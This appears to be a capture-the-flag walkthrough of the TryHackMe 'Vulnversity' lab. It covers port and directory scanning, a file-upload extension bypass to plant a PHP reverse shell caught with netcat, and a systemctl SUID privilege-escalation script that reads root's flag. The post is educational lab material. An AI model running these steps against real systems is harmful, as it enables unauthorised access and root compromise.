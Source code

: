 ```yaml
---
date: 2020-04-30 11:50:55
layout: post
title: "Vulnversity Try Hack Me Walkthrough"
subtitle:
description: Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. Vulnversity stands for Vuln University (I Guess).
image: /assets/img/uploads/vulnversity/vulnversity.jpg
optimized_image: /assets/img/uploads/vulnversity/vulnversity.jpg
category: walkthrough
tags: tryhackme boot2root
author: madhavmehndiratta
paginate: false
keywords: vulnversity, vulnversity try hack me, vulnversity walkthrough, infosec articles, tryhackme walkthrough, vulnversity writeup
---
```


Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. This box covers some basics of enumeration, exploiting the file upload vulnerability and then exploiting SUID bits. Lets Begin!

### Enumerating and Initial Access

We begin our enumeration by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -oA nmap/vulnversity 10.10.160.174

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.160.174 
Host is up (0.26s latency).      
Not shown: 994 closed ports                                              
PORT     STATE SERVICE     VERSION                                                             
21/tcp   open  ftp         vsftpd 3.0.             
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey                                                                  
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA) 
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
```

We see an Apache Web Server running on port 3333. Let's fire up our browser and see what we have there.

<center><br>
<img src="/assets/img/uploads/vulnversity/port3333.png">
</center>

Next, we will be running a gobuster scan searching for the directories.

```r
m1m3@kali:~$ gobuster dir -u http://10.10.160.174:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================      
Gobuster v3.0.1                                          
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) 
===============================================================                      
[+] Url:            http://10.10.160.174:3333 
[+] Threads:        10               
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt              
[+] Status codes:   200,204,301,302,307,401,403  
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

We found some directories. Opening the '/internal/' directory, provides us with some upload functionality!

<center><br>
<img src="/assets/img/uploads/vulnversity/internal.png">
</center>

 The first thing that we need to check in upload options is the extension type. To fuzz the extensions we will use BurpSuite. It has a nice feature called intruder which can do the job in an automated fashion.

First we need to upload a file (doesn’t really matter which file) and capture the request with BurpSuite proxy. After that right click on the request and choose send to intruder. Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so: 

<center><br>
<img src="/assets/img/uploads/vulnversity/request.png">
</center>


Now add the extensions to the list in the Payload tab and disable the <i>payload encoding</i> option.

<center><br>
<img src="/assets/img/uploads/vulnversity/intruder.png">
</center>



As we can see .phtml returns 'Success'. This is the extension we will be using with our webshell.
<center><br>
<img src="/assets/img/uploads/vulnversity/attack.png">
</center>

I will use the webshell from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php" rel=”nofollow”> pentest monkey,</a> you can use any shell you like, change the IP and port in the shell and upload it to the server. After uploading, we can find it at /internal/uploads/.

```r
m1m3@kali:~$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.5.61] from (UNKNOWN) [10.10.160.174] 43684
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:15:00 up  2:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ 
```

And we managed to get into the server. Now we can read the user.txt!

```r
www-data@vulnuniversity:/$ cd /home/bill
cd /home/bill
www-data@vulnuniversity:/home/bill$ wc -c user.txt
wc -c user.txt
33 user.txt
www-data@vulnuniversity:/home/bill$ 
```

### Privilege Escalation
This task is a little bit challenging. For this we need to exploit the SUID bits. Let's first look for the SUID bit set.

```r
www-data@vulnuniversity:/bin$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
...
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
...
```

Looking at the output of the command, we can see that systemctl had a suid bit active. Searching on the <a href="https://gtfobins.github.io/gtfobins/systemctl/" rel=”nofollow”>GTFO Bins,</a> I found that we can exploit systemctl for privilege escalation. Copy and execute the following script into the /bin directory.

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

This will write the output /root/root.txt into the /tmp. If we see in the /tmp directory, we can see a file named output, which is our flag!

```r
www-data@vulnuniversity:/bin$ wc -c /tmp/output
wc -c /tmp/output
33 /tmp/output
www-data@vulnuniversity:/bin$ 
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Try Hack Me walkthroughs!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://swadeillustration.com" rel=”nofollow”>Swade.</a>